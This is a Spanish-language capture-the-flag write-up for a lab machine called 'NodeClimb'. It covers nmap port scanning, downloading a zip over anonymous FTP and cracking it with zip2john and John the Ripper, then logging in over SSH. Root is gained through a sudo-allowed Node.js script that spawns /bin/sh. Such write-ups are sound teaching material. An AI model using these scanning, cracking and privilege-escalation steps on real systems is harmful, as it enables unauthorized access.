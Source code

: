 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Fácil  📅 Fecha de creación:
  05/07/2024
---
```


# NodeClimb

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (493).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (494).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP** y el **puerto 22** perteneciente al **servicio SSH**  están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22 -v 172.17.0.2
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (495).png" alt=""><figcaption></figcaption></figure>

Podemos observar que en el **puerto 21** se encuentra un **secretitopicaron.zip** almacenado y, dado que se permite el inicio de sesión anónimo, procederemos a conectarnos para descargar este archivo y acceder a su contenido.

<figure><img src="../../.gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

El archivo está cifrado y necesitamos una clave para descifrarlo. Utilizamos la herramienta `zip2john` de Kali Linux para obtener el hash del archivo. Posteriormente, desciframos este hash con `John the Ripper`.

<figure><img src="../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

Hemos conseguido la contraseña necesaria para extraer el contenido del archivo ZIP, la cual es `"password1"`. Ahora, al ejecutar el comando `unzip` en la CLI.

<figure><img src="../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

Parece que tenemos las credenciales del usuario **mario** en la máquina vulnerable. Las utilizaremos para establecer una conexión **SSH** con ella.

<figure><img src="../../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

Para verificar los archivos binarios que el usuario `mario` puede ejecutar, observamos que tiene permisos para ejecutar el binario `/usr/bin/node` y un script **JavaScript** ubicado en la ruta `/home/mario/script.js` con privilegios elevados. Esto podría permitirnos realizar una escalada de privilegios y obtener acceso como usuario **root**.

El archivo se encuentra vacío por lo que añadimos la siguiente línea de código.

```javascript
require('child_process').spawn('/bin/sh', { stdio: [0, 1, 2] });
```

Ejecutamos el siguiente comando en la terminal para llevar a cabo la escalada de privilegios.

```bash
sudo /usr/bin/node /home/mario/script.js
```

<figure><img src="../../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

Hemos conseguido acceso como **root**, lo que nos otorga todos los permisos en el sistema.
